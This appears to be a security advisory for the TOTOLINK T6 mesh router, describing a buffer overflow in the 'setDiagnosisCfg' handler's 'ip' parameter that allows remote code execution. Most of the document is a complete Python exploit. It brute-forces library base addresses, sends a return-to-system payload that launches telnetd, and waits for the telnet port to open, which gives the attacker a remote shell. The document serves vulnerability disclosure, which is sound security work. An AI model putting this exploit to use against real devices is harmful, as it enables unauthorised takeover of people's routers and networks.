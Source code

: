 # Information

**Vendor of the products:** TOTOLINK

**Vendor's website:** [TOTOLINK](https://www.totolink.net/)

**Affected products:** [T6](https://www.totolink.net/home/menu/newstpl/menu_newstpl/products/id/190.html)

**Affected firmware version:** V4.1.5cu.748_B20211015

**Firmware download address:** [Download Page](https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/190/ids/36.html)

# Overview

TOTOLINK Mesh Wifi T6 router has a buffer overflow vulnerability that lead to RCE. This vulnerability can be triggered through the topicurl `setDiagnosisCfg`. An attacker can implement a RCE attack by sending a malicious HTTP POST request.

# Vulnerability details

The `command` buffer can cause a buffer overflow due to the lack of length validation.

![](3/1.png)

`ip` is the param attacker control. But attecker need to pass the filter first.

![](3/2.png)

The `Validity_check` is looking for some char can be passed easy.

![](3/3.png)

`sprintf` doesn't check length of `ip`. When the attacker send a malicious `ip` param, the saved ret_address will be overwrite. Lead it to execute whatever the attacker want.

![](3/4.png)

# POC

```python
import requests, sys, threading, time, queue, random, struct, socket, os

MAX_ADDR = 2 ** 12
WORKER_AMOUNT = 10

START_TIME = 0

brute_queue = queue.Queue()

def worker(target_ip):
    while True:
        try:
            brute_val = brute_queue.get_nowait()
        except queue.Empty:
            break
        
        print("  [-] Trying 0x%x" % brute_val)

        url = f"http://{target_ip}/cgi-bin/cstecgi.cgi"

        brute_base = 0x77000000 
        telnetd_str_off = 0x5ba4

        libdl_brute_val = brute_val * 0x1000 + brute_base # base of /lib/libdl-0.9.33.so
        libdl_brute_val += 0x11c000

        libuClibc_brute_val = brute_val * 0x1000 + brute_base # base of /lib/libuClibc-0.9.33.so
        libuClibc_brute_val += 0x14000

        brute_telnet_str = libdl_brute_val + telnetd_str_off
        brute_gadget = libuClibc_brute_val + 0x29d14
        brute_system = libuClibc_brute_val + 0x35140

        temp = struct.pack("<I", brute_telnet_str)
        gadget = struct.pack("<I", brute_gadget)
        gadget_system = struct.pack("<I", brute_system)

        payload = b"A" * 135 + temp + gadget_system + gadget

        data = b'''
        {
            "topicurl":"setDiagnosisCfg",
            "ip":"%s",
            "num":"1"
        }
        ''' % (payload)

        requests.post(url, data=data)

def check_telnet(target_ip):
    global START_TIME
    print("[+] Check telnet port !!")
    while True:
        with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as sock:
            sock.settimeout(1)
            try:
                sock.connect((target_ip, 23))
                print(f"[+] Found !!")
                print(f"[+] Script run: {round(time.time() - START_TIME)}s")
                os._exit(0)
            except (socket.timeout, socket.error):
                continue
        time.sleep(1)

if __name__ == "__main__":
    if len(sys.argv) != 2:
        print(f"[-] Usage: {sys.argv[0]} target_ip")
        exit(0)

    START_TIME = time.time()
    print(f"[+] Wish me luck !!")
    
    brutes = list(range(0x10, MAX_ADDR))
    random.shuffle(brutes)

    for brute in brutes:
        brute_queue.put(brute)
    
    threads = []
    for _ in range(WORKER_AMOUNT):
        t = threading.Thread(target=worker, args=(sys.argv[1],))
        t.start()
        threads.append(t)

    t2 = threading.Thread(target=check_telnet, args=(sys.argv[1],))
    t2.start()
    threads.append(t2)

    for t in threads:
        t.join()
```

[POC](https://www.youtube.com/watch?v=Qb_jk3ZUe7o) - Attacker execute `telnetd` by bruteforcing dynamic library base to achive remote shell.
